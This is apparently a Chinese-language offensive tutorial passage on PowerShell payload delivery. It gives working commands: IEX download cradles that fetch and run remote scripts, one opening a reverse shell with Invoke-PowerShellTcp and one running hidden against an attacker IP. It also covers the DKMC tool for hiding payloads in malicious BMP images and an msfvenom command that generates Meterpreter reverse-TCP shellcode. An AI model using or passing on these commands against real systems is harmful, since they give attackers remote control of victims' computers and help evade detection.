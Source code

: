 通过远程iex下载我们的执行命令脚本

生成一个直接执行命令的exe

①

```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://InvokePowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.] 
```

②

```powershell
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.211.179:80/a'))" 
```

但是如何修改代码生成可执行命令的exe和脚本，还没弄懂 有时间大佬可以研究研究

## 二、DKMC

使用方法：

(gen) Generate a malicious BMP image //创建一张恶意BMP格式的图片

(web) Start a web server and deliver malicious image //启动web服务（内置）并传送恶意图片

(ps) Generate Powershell payload //创建Powershell 有效载荷

(sc) Generate shellcode from raw file //从原始文件生成shellcode

(exit) Quit the application //退出

生成shellcode kali ip： 192.168.0.107

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.107 LPORT=9999 -f raw  > /opt/shellcode
```

![img](https://ws1.sinaimg.cn/large/b6de3d7dly1fyehvz10mtj20iv0jv40n.jpg)



DKMC生成shellcode

![img](https://ws1.sinaimg.cn/large/b6de3d7dly1fyehw5aawkj20j00jp76v.jpg)



![img](https://ws1.sinaimg.cn/large/b6de3d7dly1fyehwb3qxvj20jc0kfacq.jpg)



![img](https://ws1.sinaimg.cn/large/b6de3d7dly1fyehwg1wxij20iw05i74x.jpg)



![img](https://ws1.sinaimg.cn/large/b6de3d7dly1fyehwk95jjj20jc0kfn01.jpg)



![img](https://ws1.sinaimg.cn/large/b6de3d7dly1fyehwohiwyj20jc0kfq6b.jpg)
